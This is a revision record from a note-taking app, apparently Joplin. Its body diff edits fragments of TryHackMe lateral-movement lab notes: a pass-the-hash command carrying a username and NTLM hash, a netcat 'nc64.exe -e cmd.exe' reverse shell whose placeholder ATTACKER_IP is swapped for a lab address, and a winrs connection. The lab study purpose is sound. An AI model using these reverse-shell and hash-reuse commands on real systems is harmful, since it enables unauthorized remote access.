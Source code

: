 id: b91f389e19764193a7d6d43962b427cb
parent_id: 44eb487a88fb491790c2e7c31a60df4a
item_type: 1
item_id: 7a17f0881b6947d484027650987381ef
item_updated_time: 1657642416991
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ser:\"],[-1,\"bob.jenkins\"],[1,\"t1_toby.beck1\"],[0,\" /do\"]],\"start1\":678,\"start2\":678,\"length1\":19,\"length2\":21},{\"diffs\":[[0,\"tlm:\"],[-1,\"6b4a57f67805a663c818106dc0648484\"],[1,\"533f1bd576caa912bdb9da284bbc60fe\"],[0,\" /ru\"]],\"start1\":723,\"start2\":723,\"length1\":40,\"length2\":40},{\"diffs\":[[0,\"bc60fe /run:\\\"c:\\\\\"],[1,\"\\\\\"],[0,\"tools\\\\\"],[1,\"\\\\\"],[0,\"nc64.exe -e cmd.\"]],\"start1\":753,\"start2\":753,\"length1\":38,\"length2\":40},{\"diffs\":[[0,\".exe\"],[-1,\" ATTACKER_IP 5555\"],[1,\"  10.50.65.78 9001\"],[0,\"\\\"`\\\n\\\n\"]],\"start1\":792,\"start2\":792,\"length1\":25,\"length2\":26},{\"diffs\":[[0,\"g PtH.\\\n\\\n\"],[1,\"**Run winrs and connect to our target machine**\\\n\\\n> **`winrs.exe -r:THMIIS.za.tryhackme.com cmd`**\\\n\\\n\"],[0,\"## Other\"]],\"start1\":1178,\"start2\":1178,\"length1\":16,\"length2\":115}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-13T08:09:23.706Z
created_time: 2022-07-13T08:09:23.706Z
type_: 13